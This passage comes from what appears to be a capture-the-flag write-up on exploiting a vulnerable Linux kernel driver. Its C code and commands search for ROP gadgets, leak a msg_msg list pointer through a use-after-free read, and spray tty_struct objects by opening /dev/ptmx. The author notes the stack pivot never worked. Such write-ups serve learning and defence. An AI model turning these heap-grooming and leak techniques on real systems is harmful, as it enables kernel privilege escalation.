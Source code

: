```sh
ROPgadget --binary vmlinux --range 0xffffffff81000000-0xffffffff8285e854 > textgadgets.txt
```
For stack pivoting, we ideally need a gadget that moves one of `rdx`, `r8`, or `r12` into `rsp`. I spent hours searching and whether due to the actual absence of such a gadget or just a skill issue on my part, I couldn't find one that worked. 

If the challenge didn’t have **SMAP** enabled, I could have placed the ROP chain in user space and avoided the need for such a pivot altogether. But Ahhh.

#### 7. verify and get the `next` pointer.

Even though I couldn't find a working stack pivot, I still wanted to see how far I could go with this approach. So the next step was to check whether one of our `msg_msg` structures had been successfully allocated into the freed heap.

```c
char *leaked_data = malloc(target_size);
  if (!leaked_data) {
      perror("malloc failed");
  return 0;
}

if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
  perror("USE_READ failed");
  free(leaked_data);
  return 0;
}
// Process the leaked data
struct msgbuf *msg_buf = (struct msgbuf*)leaked_data;

if (msg_buf->m_type == 0x1337) {
  // I had set this earlier for easier identification
  printf("[+] Found msg_msg with mtype 0x1337!\n");
  next_msg_address = (uint64_t)(msg_buf->m_list.next); // our next pointer
  rop_addr = next_msg_address + 48;
  tty_table_address = rop_addr + payload_len * sizeof(uint64_t);
  return 1;
} else {
  return 0;
}
```

#### 8. deallocate the buffer using the driver.

```c
if (ioctl(vuln_fd, FREE) != 0) {
    //ignore for now (I don't remember why I did it.)
}
```

#### 9. Allocate a tty_struct into the heap by spam opening `/dev/ptmx` devices.

```c
for (int i = 0; i < 20; i++) {
    ptys[pty_count] = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    if (ptys[pty_count] >= 0) {
        pty_count++;
    }
}

char *leaked_data = malloc(target_size);
if (!leaked_data) {
    perror("malloc failed");
    goto cleanup;
}
```
